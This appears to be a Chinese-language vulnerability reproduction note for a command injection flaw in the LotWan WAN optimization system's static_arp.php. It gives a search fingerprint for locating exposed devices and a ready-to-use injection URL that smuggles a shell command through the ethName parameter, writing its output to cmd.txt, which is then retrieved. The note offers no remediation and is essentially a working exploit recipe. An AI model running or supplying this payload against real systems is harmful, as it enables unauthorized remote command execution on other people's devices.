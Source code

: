 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182832800](./images/202205191828884.png)

存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![image-20220519182841776](./images/202205191828819.png)

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182859597](./images/202205191828666.png)